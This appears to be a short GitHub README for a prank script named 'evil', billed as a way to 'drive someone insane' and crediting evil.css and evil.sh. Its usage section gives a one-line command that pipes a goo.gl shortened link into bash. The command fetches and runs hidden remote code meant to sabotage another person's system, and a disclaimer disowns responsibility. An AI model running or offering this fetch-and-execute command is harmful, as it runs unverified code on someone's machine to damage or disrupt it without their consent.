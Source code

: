 # evil
How do you drive someone insane?

#Usage
```
curl -s "https://goo.gl/J78oig" | bash /dev/stdin 
```

#Credit
https://github.com/tlrobinson/evil.css

https://github.com/mathiasbynens/evil.sh

#Disclaimer
I'm not responsible for any evil caused by this script. Public domain.
